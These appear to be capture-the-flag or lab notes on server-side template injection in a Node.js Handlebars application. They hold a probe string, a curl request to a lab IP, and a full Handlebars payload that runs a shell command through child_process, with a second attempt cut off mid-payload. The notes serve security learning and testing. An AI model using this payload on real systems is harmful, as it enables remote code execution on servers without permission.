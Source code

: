 	- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejs
#### Browser
- Test Data: `**${{<%[%'"}}%\.**`
![](../Assets/Screenshot%202025-09-16%20at%2014.15.31.png)
#### Curl
```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://10.129.30.246'
```
- Response - Key Message
```bash
"Error: You must pass a string or Handlebars AST to Handlebars.compile. You passed undefined"
```
### Handlebars Payload Testing
- Useful resource
	- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejs
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Using BurpSuite, URL encode
- Pass POST request into BurpSuite Repeater
- Replace POST parameter `email` value with encoded value.
- Key Response Message
	- `"ReferenceError: require is not defined"`
### Test alternate ways to use the require function
- Useful resource
	- https://nodejs.org/api/process.html#processmainmodule
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
```